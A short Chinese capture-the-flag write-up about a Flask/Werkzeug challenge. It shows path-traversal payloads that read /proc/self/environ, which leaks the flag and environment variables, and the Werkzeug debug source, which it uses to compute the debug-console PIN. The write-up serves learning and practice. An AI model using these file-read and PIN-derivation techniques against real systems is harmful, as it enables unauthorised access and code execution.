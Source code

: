 #Web #python #procfs #werkzeug #flask

~~这题被用procfs非预期了，好不甘心qaq~~

---

```
/?location=index.html
```

![](<./img/Pasted image 20230514202231.png>)

任意文件读取就对了

非预期解法
===

```
/?location=../../../../../../proc/self/environ
```

> PATH=/usr/local/bin:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
> HOSTNAME=9264804d37f5
> FLAG=Spirit{94f63678-998a-4feb-ab66-50ab20fb501b}
> LANG=C.UTF-8
> GPG_KEY=A035C8C19219BA821ECEA86B64E628F8D684696D
> PYTHON_VERSION=3.11.3
> PYTHON_PIP_VERSION=22.3.1
> PYTHON_SETUPTOOLS_VERSION=65.5.1
> PYTHON_GET_PIP_URL=https://github.com/pypa/get-pip/raw/0d8570dc44796f4369b652222cf176b3db6ac70e/public/get-pip.py
> PYTHON_GET_PIP_SHA256=96461deced5c2a487ddc65207ec5a9cffeca0d34e7af7ea1afc470ff0d746207
> HOME=/root
> WERKZEUG_SERVER_FD=3
> WERKZEUG_RUN_MAIN=true

虽然很气但万物皆文件真的很香～

预期解法
===

可以看下[这篇blog](https://www.kingkk.com/2018/08/Flask-debug-pin%E5%AE%89%E5%85%A8%E9%97%AE%E9%A2%98/)～

总之就是非常离谱，只要能够任意文件读取，PIN是可以算！出！来！的！

当然生产环境开debug以及任意文件读取本身就是个大灾难了，就像是别人站在你电脑前了，chrome保存的密码啥的不泄露才怪

PIN的算法可能会有所不同，但是既然可以读文件，就可以看到靶机里面这部分的源码

```
/?location=../../../../../../usr/local/lib/python3.11/site-packages/werkzeug/debug/__init__.py
```

照着源码对号入座就好啦